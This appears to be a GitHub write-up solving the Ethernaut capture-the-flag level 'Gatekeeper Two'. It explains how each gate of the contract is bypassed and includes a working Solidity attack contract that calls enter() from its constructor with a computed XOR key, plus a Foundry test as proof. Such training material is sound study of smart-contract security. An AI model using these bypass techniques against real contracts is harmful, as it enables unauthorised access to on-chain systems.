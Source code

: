 # Level 14 - Gatekeeper Two

## Objectives

- Make it pass the gatekeeper and register as an entrant to pass this level.

## Contract Overview

To reach the objective and enter the `GatekeeperTwo` contract it is necessary to get pass the three gates.

## Finding the weak spots

In the `GatekeeperTwo` contract, all modifiers follow the correct execution paths, and they either revert the transaction or end with an underscore \_. To successfully enter the contract, the requirements set by the modifiers must be satisfied.

### The first gate

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin); // <-- this line over here
    _;
  }
```

To satisfy the `msg.sender =! tx.origin` check we need to call the
`GatekeeperTwo` contract from another contract. This is the same thing as in the
[Telephone - level 4](https://github.com/matrix-0wl/ethernaut-solutions-foundry/tree/master/src/levels/04-Telephone) and [GatekeeperOne - level 13](https://github.com/matrix-0wl/ethernaut-solutions-foundry/tree/master/src/levels/13-GatekeeperOne)
challenges.

In other words to ensure that `msg.sender` and `tx.origin` are different, an intermediary contract can be created to make function calls to the `GatekeeperTwo` contract. By doing so, the caller's address will become the `tx.origin`, and the deployed contract's address will be the `msg.sender` received by the `GatekeeperTwo` contract.

### The second gate

```solidity
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```

In Solidity, we can use low-level codes by using assembly in YUL. They can be used inside `assembly {...}`. `extcodesize` is one such opcode that returns the code's size of any address.

The `x` variable is being checked to make sure that the size of the contract's code is 0, in other words, an EOA should make the call and not another contract.

If the `caller` was an EOA (Externally Owned Account) that would always return zero, but this cannot be the case because as we said the `caller` (`msg.sender`) must be a Smart Contract because of the first gate requirement.

This is where constructor's come into play. During a contract's initialization, or when it's constructor is being called, its runtime code size will always be 0.

So when we put our exploit logic and call it from inside a constructor, the return value of `extcodesize` will always return zero. This essentially means that all our exploit code will be called from inside of our contract's constructor to go through the second gate.

### The third gate

To pass the final gate of the `GatekeeperTwo` contract, we need to find a single `_gateKey` value that satisfies all the following requirements:

```solidity
  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }
```

This is a simple XOR operation and we know that A ^ B = C is equal to A ^ C = B. Using this logic we can very easily find the value of the unknown `_gateKey` simply by using the following code:
`uint64 hash = uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));`
`bytes8 _gatekey = bytes8(hash ^ type(uint64).max);`

This mean that we can calculate the correct gateKey by executing:
`uint64 hash = uint64(bytes8(keccak256(abi.encodePacked(this))));`
`bytes8 _gatekey = bytes8(hash ^ type(uint64).max);`

## Potential attack scenario (hypothesis)

An attacker can register themselves as an entrant in the `GatekeeperTwo` contract by calling the enter function from the `GatekeeperTwoAttack` contract.

- A call from the contract will satisfy the criteria of the first gate.
- This call can be made from within the constructor to pass the first and the second gate.
- To pass the third gate attacker can calculate the `_gateKey` by using the commutativity property of the "exclusive or" operator.

## Plan of the attack

1. Attacker creates the `GatekeeperTwoAttack` contract
2. The constructor of the attack contract takes the address of the `GatekeeperTwo` contract as an argument.
3. The constructor calculates the `uint(64)_gateKey` and casts it to `bytes8` as this is the type accepted by the `enter()` function in the `GateKeeperTwo` contract.
4. The `_gateKey` is calculated from this equation: `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max) = uint64(_gateKey)`
5. The `msg.sender` in this case is the address of the attack contract itself. So it will be calculated with the address of `this`.
6. From within the constructor a call to the `enter()` function will be made with the calculated `_gateKey` as an argument.
7. This will set the `tx.origin` (attacker) as an entrant in the `GatekeeperTwo` contract.

## Malicious contract (GatekeeperTwoAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./GatekeeperTwo.sol";

contract GatekeeperTwoAttack {
    GatekeeperTwo gatekeeperTwoContract;

    constructor(address _gatekeeperTwoContract) public {
        gatekeeperTwoContract = GatekeeperTwo(_gatekeeperTwoContract);

        uint64 hash = uint64(bytes8(keccak256(abi.encodePacked(this))));

        bytes8 _gatekey = bytes8(hash ^ type(uint64).max);

        gatekeeperTwoContract.enter(_gatekey);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/14-GatekeeperTwo.t.sol))

```solidity
         GatekeeperTwoAttack gatekeeperTwoAttack;

        gatekeeperTwoAttack = new GatekeeperTwoAttack(
            address(gatekeeperTwoContract)
        );

        emit log_named_address(
            "Address of the entrant: ",
            gatekeeperTwoContract.entrant()
        );

        assertEq(gatekeeperTwoContract.entrant(), tx.origin);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/GatekeeperTwo.png)

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-14-solution-gatekeeper-two)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
